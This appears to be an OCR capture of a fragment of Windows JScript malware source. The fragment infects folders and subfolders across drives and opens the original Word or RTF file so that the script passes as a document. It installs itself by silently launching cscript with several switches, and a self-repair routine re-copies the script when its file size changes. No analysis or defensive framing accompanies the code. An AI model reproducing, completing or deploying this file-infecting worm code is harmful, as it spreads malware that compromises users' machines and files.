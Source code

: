                 InfectFolder(drv.Path + '\\');
                InfectSubFolder(drv.Path + '\\');
            }
        }
    }
}

function GetExtensionName(filename) {
    return fso.GetExtensionName(filename).toLowerCase();
}

function TryOpenTheOriginalFile() {
    var path = ScriptPath.substr(0, ScriptPath.length - 4);
    if (fso.FileExists(path + '.docx')) {
        OpenTheOriginalFile(path, '.docx');
    } else if (fso.FileExists(path + '.doc')) {
        OpenTheOriginalFile(path, '.doc');
    } else if (fso.FileExists(path + '.rtf')) {
        OpenTheOriginalFile(path, '.rtf');
    }
}

function Install() {
    shell.run('cscript.exe //e:jscript ' + SysPath + ' /r', 0);
    WScript.Sleep(100);
    shell.run('cscript.exe //e:jscript ' + SysPath + ' /s', 0);
    WScript.Sleep(100);
    shell.Run('cscript.exe //e:jscript ' + SysPath + ' /n', 0);
}

function GetFileSize(filename) {
    if (fso.FileExists(filename)) {
        return fso.GetFile(filename).Size;
    } else {
        return null;
    }
}

function GetBaseName(filepath) {
    return fso.GetBaseName(filepath);
}

function GetDocType(filepath) {
// 获取html文件第一行文件类型说明
    try {
        return fso.OpenTextFile(filepath, 1).ReadLine();
    } catch (e) {
        return null;
    }
}

function TestAndRepair() {
    if (GetFileSize(SysPath) != 9201) {
        CopyScriptFile(SysPath);
        shell.Run('wscript.exe //e:jscript ' + SysPath + ' /e');
    }
}
